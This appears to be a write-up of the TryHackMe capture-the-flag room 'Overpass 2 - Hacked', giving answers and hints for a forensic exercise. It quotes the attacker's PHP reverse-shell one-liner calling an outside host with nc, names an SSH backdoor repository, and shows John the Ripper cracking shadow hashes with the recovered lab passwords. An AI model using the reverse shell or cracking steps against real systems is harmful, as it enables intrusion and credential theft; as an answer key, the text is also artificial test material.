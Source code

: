 # [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

### What was the URL of the page they used to upload a reverse shell?
Answer: /development/ 

Hint: there is just one url path in network logs

### What payload did the attacker use to gain access?
Answer: <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

Hint: download the upload.php and read the contents, you'll be able to see alot

### What password did the attacker use to privesc?
Answer: 

Hint: whenevernoteartinstant

### How did the attacker establish persistence?
Answer: https://github.com/NinjaJc01/ssh-backdoor

Hint: from that same file, you can read attacked cloned a git repo having establish ssh_backdoor

### Using the fasttrack wordlist, how many of the system passwords were crackable?
Answer: 4

Solution: As you can see from upload.php that attacker read the /etc/shadow file. Copy those hashes of the password
save them into a file like hashes.txt and use john the ripper to crack them.
Command : 

**john --wordlist=/usr/share/wordlists/fasttrack.txt password.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)     
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
4g 0:00:00:01 DONE (2024-05-14 21:19) 2.962g/s 194.0p/s 857.7c/s 857.7C/s letmein..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed**
